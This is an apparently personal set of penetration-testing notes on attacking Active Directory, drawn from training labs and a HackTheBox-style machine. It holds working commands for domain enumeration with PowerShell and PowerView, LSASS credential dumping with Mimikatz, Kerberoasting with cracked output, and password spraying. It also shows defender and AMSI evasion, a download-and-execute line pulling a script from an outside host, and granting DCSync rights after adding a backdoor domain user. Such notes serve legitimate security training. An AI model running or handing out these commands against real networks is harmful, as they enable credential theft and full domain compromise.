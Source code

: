 # Active Directory

## whoEnumeration

### Traditional approach

```
net user /domain ###enumerate all users in the entire domain
net user jeff_admin /domain
net group /domain
net group "Sales Department" /domain
```

### **Modern approach**

```
// SoPS C:\Users\offsec.CORP> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()
Forest : corp.com
DomainControllers : {DC01.corp.com}
Children : {}
DomainMode : Unknown
DomainModeLevel : 7
Parent :
PdcRoleOwner : DC01.corp.com
RidRoleOwner : DC01.corp.com
InfrastructureRoleOwner : DC01.corp.com
Name : corp.com
```

{% code title="Enable running scripts" overflow="wrap" lineNumbers="true" %}
```
powershell -ep bypass
```
{% endcode %}

{% code title="Script which will create the full LDAP path required for enumeration" overflow="wrap" lineNumbers="true" %}
```
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"
$LDAP
```
{% endcode %}

{% code title="Script output showing the full LDAP path" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\stephanie> .\enumeration.ps1
LDAP://DC1.corp.com/DC=corp,DC=com
```
{% endcode %}

0x30000000 (decimal 805306368) to the filter property to enumerate all users in the domain

{% code title=".\enumerate.ps1" overflow="wrap" lineNumbers="true" %}
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domainObj.PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="samAccountType=805306368"
$result = $dirsearcher.FindAll()

Foreach($obj in $result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }

    Write-Host "-------------------------------"
}

```
{% endcode %}

#### Resoving Nested Groups

```
domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(name=Secret_Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.member
}
```

## **PowerView**

```
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1
```

```
Get-NetDomain
Get-NetUser
Get-NetUser "fred"
Get-NetUser | select cn
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetUser | select cn,whencreated
Get-NetGroup | select cn
Get-NetGroup "Sales Department" | select member
```

{% code title="Currently logged on users" overflow="wrap" lineNumbers="true" %}
```
PS C:\Tools\active_directory> Get-NetLoggedon -ComputerName client251
```
{% endcode %}

{% code title="Get-NetSession will return all active sessions, in our case from the domain controller" overflow="wrap" lineNumbers="true" %}
```
PS C:\Tools\active_directory> Get-NetSession -ComputerName dc01
```
{% endcode %}

### **Enumerating Operating Systems**

```
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname
```

### **Enumerate through Service Principal Names**

While Microsoft has not documented a list of searchable SPN’s there are extensive lists available online.

```
update previously script with this filter
$Searcher.filter="serviceprincipalname=*http*"
```

```
```

## **Authentication**

1. **NTLM**
2. **Kerberos**
3. **Cached Credential Storage and Retrieval**
   1. execute Mimikatz directly from memory using an injector like PowerShell (https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke- ReflectivePEInjection.ps1)or use a built-in tool like Task Manager to dump the entire LSASS process memory, move the dumped data to a helper machine, and from there, load the data into Mimikatz.
4.  Service Account Attacks

    1. Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'H TTP/CorpWebServer.corp.com'
    2. PS C:\Users\offsec.CORP> klist
    3. mimikatz # kerberos::list /export


5. Low and Slow Password Guessing
   1. PS C:\Users\Offsec.corp> net accountss
   2. Spray-Passwords.ps ([ https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1](https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1))



### Kerberoasting

```
kali@kali:~$ sudo apt update && sudo apt install kerberoast
...
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offse
c@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
found password for ticket 0: Qwerty09! File: 1-40a50000-Offsec@HTTP~CorpWebServer.cor
p.com-CORP.COM.kirbi
All tickets cracked!
```

{% hint style="info" %}
The Invoke-Kerberoast.ps**1** [ **https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-**\
**Kerberoast.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)**)** script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.
{% endhint %}

### Making use of "GenericAll"

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net user john abc123! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net group "Exchange Windows Permissions" john /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net localgroup "Remote Management Users" john /add
The command completed successfully.

```

### Download PowerView

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Bypass-4MSI
[+] Success!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).downloadstring("http://10.10.16.12:8080/PowerView.ps1")

```

The Bypass-4MSI command is used to evade defender before importing the script. Next, we can use the Add-ObjectACL with john's credentials, and give him DCSync rights.



```
$SecPassword = ConvertTo-SecureString 'abc123!!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\john', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
```

##

```
```

